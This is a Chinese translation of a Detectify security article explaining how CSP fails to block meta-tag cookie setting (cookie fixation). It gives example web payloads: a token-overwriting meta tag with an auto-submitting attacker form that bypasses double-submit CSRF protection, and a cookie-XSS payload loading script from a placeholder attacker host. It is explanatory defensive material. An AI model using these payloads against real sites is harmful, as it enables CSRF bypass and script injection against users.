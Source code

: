 > 原文链接: https://www.anquanke.com//post/id/85365 


# 【技术分享】CSP flaws: cookie fixation


                                阅读量   
                                **72175**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：detectify.com
                                <br>原文地址：[https://labs.detectify.com/2017/01/12/csp-flaws-cookie-fixation/](https://labs.detectify.com/2017/01/12/csp-flaws-cookie-fixation/)

译文仅供参考，具体内容表达以及含义原文为准



****

**[![](https://p1.ssl.qhimg.com/t010c77f04bb548b07c.jpg)](https://p1.ssl.qhimg.com/t010c77f04bb548b07c.jpg)**

**翻译：**[**shan66**](http://bobao.360.cn/member/contribute?uid=2522399780)

**预估稿费：80RMB**

**<strong><strong>投稿方式：发送邮件至**[**linwei#360.cn**](mailto:linwei@360.cn)**，或登陆**[**网页版**](http://bobao.360.cn/contribute/index)**在线投稿**</strong></strong>



**前言**

我们知道，CSP不会阻止&lt;meta http-equiv ="Set-Cookie" content ="a = b"&gt;这样的标签。因此，对于含有XSS漏洞的页面来说，即使提供了CSP保护，攻击者仍然可以通过写入Cookie来发动攻击。 下面，我们来考察一些与Cookie篡改漏洞有关的例子。

<br>

**双重提交Cookie示例**

双重提交cookie是一些应用程序和框架用于处理CSRF的技术。这意味着所有表单都必须包含一个在cookie中设置的令牌。 如果在表单中发送的令牌与cookie中的令牌不同，则请求被丢弃。 这种技术被OWASP推荐为基于会话的令牌的替代方案。

在伪代码中它可能看起来像这样：



```
//User sent the form
if(isset($_POST['submit']))`{`
         if($_POST['token'] == $_COOKIE['token'])`{`
                  //Accept the form
         `}`else`{`
                  echo "CSRF ATTACK DETECTED";
                  exit();
         `}`
`}`
```

没有CSP的时候，如果应用程序含有XSS漏洞，那么攻击者就可以使用脚本来填写并提交他们想要攻击的任何表单：



```
&lt;script&gt;
document.getElementById('sendmoneyto').value = 'Mathias';
document.getElementById('form').submit();
&lt;/script&gt;
```

使用CSP后，我们就可以（通过使用随机数或限制内联脚本）避免这种情况了。然而，攻击者可以使用以下payload来实现同样的事情：

```
&lt;meta http-equiv="Set-Cookie" content="token=NotSoSecretAnyMore"&gt;
```

然后，在攻击者的网站上：



```
&lt;script&gt;
function submitForm()`{`
  document.forms[0].submit();
`}`
&lt;/script&gt;
&lt;iframe src='http://targetapplication/vulnerabletoxss?parameter=&lt;meta http-equiv="Set-Cookie" content="token=NotSoSecretAnyMore"&gt;' onload="submitForm()"&gt;&lt;/iframe&gt;
&lt;form action="http://targetapplication/targetform" method="POST"&gt;
&lt;input type="hidden" name="token" value="NotSoSecretAnyMore" /&gt;
&lt;input type="hidden" name="sendmoneyto" value="Mathias" /&gt;
&lt;/form&gt;
```

因为攻击者能够改写令牌，所以他们可以在其页面上的表单中使用新令牌，从而绕过CSRF保护措施。

<br>

**双会话示例**

现实中，使用多个会话Cookie的应用程序是非常少见的。例如，主应用程序使用一个会话Cookie，而“次应用程序”使用另一个会话Cookie。

如果攻击者可以篡改cookie，他们就可以让受害者在主应用程序中使用攻击者的会话cookie。这样的话，就可以让受害者在主应用程序中以攻击者身份登录，而在次应用程序中以受害者身份登录。

如果应用程序从主应用程序提取送货数据，那么受害人在次应用程序中购买的产品就会被发往攻击者的地址。

<br>

**子域cookie XSS示例**

如果子域中存在cookie XSS漏洞，攻击者可以使用cookie篡改漏洞来设置XSS cookie，然后重定向到易受攻击的页面：



```
&lt;meta http-equiv="Set-Cookie" content="vulnerableCookie=&lt;script src=//attackers/page.js&gt;"&gt;
&lt;meta http-equiv="refresh" content="0;URL=http://othersubdomain.vulnerable/page_vulnerable_to_cookie_xss"&gt;
```



**结论**

虽然许多客户端漏洞都可以通过CSP进行缓解，但是Cookie篡改仍然会导致一些安全问题，因为它对于这种漏洞根本不起作用。当开发使用CSP和cookie的应用程序时，一定要注意各种类型攻击的不同之处。
